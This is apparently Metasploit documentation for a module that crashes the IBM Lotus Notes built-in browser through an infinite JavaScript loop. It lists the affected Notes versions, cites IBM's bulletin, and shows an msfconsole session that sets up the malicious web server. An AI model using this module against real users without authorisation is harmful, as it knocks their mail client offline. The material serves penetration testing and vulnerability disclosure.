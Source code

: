 ## Vulnerable Application

This module exploits a vulnerability in the built-in web-browser of IBM Lotus Notes client application.

JavaScript is used to create an object instance of encode URI within an infinite loop,
leading to a Denial of Service of the IBM Lotus Notes app itself.

Vulnerable app versions include:
* IBM Notes 9.0.1 to 9.0.1 FP8IF1
* IBM Notes 9.0 to 9.0 IF4.
* IBM Notes 8.5.3 to 8.5.3 FP6 IF13.
* IBM Notes 8.5.2 to 8.5.2 FP4 IF3.
* IBM Notes 8.5.1. to 8.5.1 FP5 IF5.
* IBM Notes 8.5 release

Related security bulletin from IBM: http://www-01.ibm.com/support/docview.wss?uid=swg21999385

## Verification Steps

1. Start msfconsole
1. `use auxiliary/dos/http/ibm_lotus_notes.rb`
1. Set `SRVHOST`
1. Set `SRVPORT`
1. run (Server started)
1. Visit server URL in the built-in web-browser of IBM Notes client application

## Scenarios

```
msf > use auxiliary/dos/http/ibm_lotus_notes 
msf auxiliary(ibm_lotus_notes) > show options 

Module options (auxiliary/dos/http/ibm_lotus_notes):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(ibm_lotus_notes) > set SRVHOST 192.168.0.50
SRVHOST => 192.168.0.50
msf auxiliary(ibm_lotus_notes) > set SRVPORT 9092
SRVPORT => 9092
msf auxiliary(ibm_lotus_notes) > run
[*] Auxiliary module execution completed
msf auxiliary(ibm_lotus_notes) > 
[*] Using URL: http://192.168.0.50:9092/ImlbHZVXlvTEXYd
[*] Server started.
msf auxiliary(ibm_lotus_notes) > 
```

At this point, the target should use the built-in web browser of their IBM Lotus Notes client to navigate to the above "Using URL" value.  And then they should see their Notes app become unresponsive.
